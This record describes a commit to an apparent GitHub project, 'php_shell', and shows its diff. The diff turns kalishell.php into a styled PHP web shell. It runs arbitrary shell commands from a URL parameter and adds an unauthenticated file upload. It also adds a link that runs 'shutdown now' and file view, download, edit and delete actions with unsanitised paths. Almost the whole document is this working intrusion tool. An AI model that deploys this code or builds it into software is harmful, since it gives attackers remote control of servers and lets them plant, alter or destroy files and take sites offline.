

Before and after one commit to hidayatimam/php_shell, a PHP site: page /kalishell.php in a window 1280 px wide. Before the commit the page ends 790 px from the top, so only its background shows below. Run offline with PHP 8.4, Linux system fonts and the light colour scheme; data that the repository does not hold is empty.

Commit message:
kalishell version 1.0

```diff
--- a/kalishell.php
+++ b/kalishell.php
@@ -2,7 +2,7 @@
 <html>
 
 <head>
-  <title>BASH SHELL</title>
+  <title>KaliLinux SHELL</title>
   <style>
         body {
             background-color: black;
@@ -11,14 +11,14 @@
             margin: 0;
             padding: 20px;
             display: flex;
+            flex-direction: column;
+            height: 100vh;
         }
 
-    #terminal-container {
-      flex: 1;
-      padding-right: 20px;
-    }
-
-    #table-container {
+        #terminal-container,
+        #table-container,
+        .footer-container,
+        .under-ground {
             flex: 1;
         }
 
@@ -51,7 +51,8 @@
             margin-top: 20px;
         }
 
-    th, td {
+        th,
+        td {
             border: 1px solid white;
             padding: 8px;
             text-align: left;
@@ -67,26 +68,66 @@
         }
 
         a {
-      color: #4eff4e; /* Green color for links */
+            color: #4eff4e;
+            /* Green color for links */
         }
 
         .disabled {
-      color: red; /* Red color for disabled functions */
+            color: red;
+            /* Red color for disabled functions */
         }
+
         .footer-container {
             background-color: black;
             color: white;
             text-align: center;
             padding: 10px;
-      position: fixed;
-      bottom: 0;
             width: 100%;
+        }
+
+        #login-container {
+            text-align: center;
+        }
+
+        form {
+            display: inline-block;
+            text-align: left;
+        }
+
+        input {
+            background-color: black;
+            color: white;
+            border: none;
+            outline: none;
+            width: 200px;
+            padding: 5px;
+            margin-bottom: 10px;
+        }
+
+        button {
+            background-color: #2778ff;
+            color: black;
+            border: none;
+            padding: 8px 12px;
+            cursor: pointer;
+        }
+
+        button:hover {
+            background-color: #1858c9;
+        }
+
+        .scrollable {
+            overflow: auto;
+            max-height: 500px;
         }
     </style>
 </head>
 
 <body>
+
   <?php
+
+
   function getUser() {
       return trim(shell_exec('whoami'));
   }
@@ -111,18 +152,17 @@
     return ini_get('open_basedir');
   }
 
-  function isFunctionDisabled($functionName) {
-    $disabledFunctions = ini_get('disable_functions');
-
-    if (empty($disabledFunctions)) {
-        return false;
+  function upload_file() {
+    echo '<form action="" method="post" enctype="multipart/form-data" name="upload" id="upload">';
+    echo '<input type="file" name="file" size="50"><input name="up" type="submit" id="up" style="color:green" value="Upload"></form>';
+    if( $_POST['up'] == "Upload" ) {
+      if(@copy($_FILES['file']['tmp_name'], $_FILES['file']['name'])) { echo '<script>alert("SUCCESS TO UPLOAD!!");window.location.href="kalishell.php";</script>'; }
+      else { echo '<script>alert("FAILED TO UPLOAD!!");window.location.href="kalishell.php";</script>'; }
+      }
   }
 
-    $disabledFunctionsArray = explode(',', $disabledFunctions);
-    $disabledFunctionsArray = array_map('trim', $disabledFunctionsArray);
 
-    return in_array($functionName, $disabledFunctionsArray);
-  }
+
 
   $user = getUser();
   $output = '';
@@ -131,16 +171,19 @@
       $command = $_GET['command'];
       $output = executeCommand($command);
   }
+  if (isset($_GET['serveroff'])) {
+       return trim(shell_exec('shutdown now')) || trim(shell_exec('shutdown -s -t'));
+  }
 
   $ip = getIp();
   $openBaseDir = getOpenBaseDir();
   $date = date("Y-m-d H:i:s");
   $functionToCheck = 'exec';
-  $isDisabled = isFunctionDisabled($functionToCheck);
   $isphp = phpversion();
   ?>
 
   <div id="terminal-container">
+ <small><p style="color:red">Dev By:https://github.com/hidayatimam/php_shell</p></small>
     <h1>┌──(<?= $user ?>㉿<?= $user ?>)-[~]<br>└─$
       <form id="terminalForm" action="<?=$_SERVER['PHP_SELF'];?>" method="GET" enctype="multipart/form-data">
         <input type="text" name="command" autocomplete="off" autofocus onkeydown="submitForm(event)">
@@ -158,22 +201,24 @@
         <th>PHP Version</th>
         <th>Date and Time</th>
         <th>Document Root</th>
-        <th>Manage Folder/File</th>
-        <th>Disabled Function</th>
+        <th>Upload</th>
+        <th>Power Off</th>
       </tr>
       <tr>
         <td><?php echo $ip; ?></td>
         <td><?php echo $isphp; ?></td>
         <td><?php echo $date; ?></td>
         <td><?php echo $openBaseDir; ?></td>
-        <td><a href="file_manager.php">Manage</a></td>
-        <td class="<?php echo $isDisabled ? 'disabled' : ''; ?>"><?php echo $functionToCheck; ?></td>
+        <td><?php upload_file('.')?></td>
+        <td><a href="<?=$_SERVER['PHP_SELF'];?>?serveroff" style="color:red">Shutdown</a></td>
+
       </tr>
     </table>
   </div>
   <div class="footer-container">
+  <?php listFiles('.'); ?>
+  <?php
 
-<?php
 function listFiles($directory)
 {
     $files = array_diff(scandir($directory), array('.', '..'));
@@ -182,36 +227,41 @@ function listFiles($directory)
     echo '<tr><th>Name</th><th>Type</th><th>Actions</th></tr>';
 
     foreach ($files as $file) {
-        $filePath = $directory . '/' . $file;
-        $fileType = is_dir($filePath) ? 'Directory' : 'File';
+        $filepath = $directory . '/' . $file;
+        $fileType = is_dir($filepath) ? 'Directory' : 'File';
 
         echo "<tr>";
         echo "<td>$file</td>";
         echo "<td>$fileType</td>";
-        echo "<td><a href='file_manager.php?action=view&file=$file'>View</a> | ";
-        echo "<a href='file_manager.php?action=download&file=$file'>Download</a> | ";
-        echo "<a href='file_manager.php?action=edit&file=$file'>Edit</a> | "; // Added Edit action
-        echo "<a href='file_manager.php?action=delete&file=$file' onclick='return confirm(\"Are you sure?\");'>Delete</a></td>";
+        echo "<td><a href='kalishell.php?action=view&file=$file'>View</a> | ";
+        echo "<a href='kalishell.php?action=download&file=$file'>Download</a> | ";
+        echo "<a href='kalishell.php?action=edit&file=$file'>Edit</a> | ";
+        echo "<a href='kalishell.php?action=delete&file=$file' onclick='return confirm(\"Are you sure?\");'>Delete</a></td>";
         echo "</tr>";
     }
 
     echo '</table>';
 }
-
 function viewFile($file)
 {
     $filePath = "./$file";
+
     if (file_exists($filePath) && is_file($filePath)) {
         $fileContent = htmlentities(file_get_contents($filePath));
+
         echo "<h2>Viewing $file</h2>";
-        echo "<pre>$fileContent</pre>";
+        echo "<div style='background-color: #111; color: #eee; padding: 10px;'>";
+        echo "<pre style='white-space: pre-wrap; overflow-x: auto; max-height: 500px;'>";
+        echo "$fileContent</pre>";
+        echo "<a href='kalishell.php'>Back</a>";
+        echo "</div>";
     } else {
         echo "<h2>File not found: $file</h2>";
     }
 }
-
 function downloadFile($file)
 {
+
   $filePath = "./$file";
   if (file_exists($filePath) && is_file($filePath)) {
     header('Content-Type: application/octet-stream');
@@ -222,33 +272,41 @@ function downloadFile($file)
     echo "<h2>File not found: $file</h2>";
   }
 }
-
-function editFile($file)
-{
-    $filePath = "./$file";
-    if (file_exists($filePath) && is_file($filePath)) {
-        // Perform your file editing operations here
-        // You can display a form or implement inline editing as needed
-        echo "<h2>Editing $file</h2>";
-    } else {
-        echo "<h2>File not found: $file</h2>";
-    }
-}
-
 function deleteFile($file)
 {
   $filePath = "./$file";
   if (file_exists($filePath)) {
     unlink($filePath);
     echo "<h2>File deleted: $file</h2>";
+    echo "<script>alert('File Successfully Deleted!');window.location.href='kalishell.php';</script>";
   } else {
     echo "<h2>File not found: $file</h2>";
   }
 }
 
+function editFile($file)
+{
+    $filePath = "./$file";
+    if (file_exists($filePath) && is_file($filePath) && is_writable($filePath)) {
+        if ($_SERVER['REQUEST_METHOD'] === 'POST') {
+            $newContent = $_POST['content'];
+            file_put_contents($filePath, $newContent);
+            echo "<script>alert('File Successfully Deleted!');window.location.href='kalishell.php';</script>";
+            echo "<h2>File edited successfully: $file</h2>";
+        } else {
+            $fileContent = htmlentities(file_get_contents($filePath));
+            echo "<h2>Edit $file</h2>";
+            echo "<form method='post'>";
+            echo "<textarea name='content' rows='10' cols='50'>$fileContent</textarea><br>";
+            echo "<input type='submit' value='Save Changes'>";
+            echo "</form>";
+        }
+    } else {
+        echo "<h2>Unable to edit file: $file</h2>";
+    }
+}
 $action = isset($_GET['action']) ? $_GET['action'] : '';
 $file = isset($_GET['file']) ? $_GET['file'] : '';
-
 switch ($action) {
   case 'view':
     viewFile($file);
@@ -256,18 +314,19 @@ switch ($action) {
   case 'download':
     downloadFile($file);
     break;
+  case 'delete':
+    deleteFile($file);
+    break;
     case 'edit':
       editFile($file);
       break;
-    case 'delete':
-        deleteFile($file);
-        listFiles('.'); // After deletion, refresh the file list
-        break;
-    default:
-        listFiles('.');
-        break;
 }
+
 ?>
+
+  </div>
+  <div class="under-ground">
+
   </div>
 
   <script>
```
Lines whose indentation alone changed are shown as unchanged.
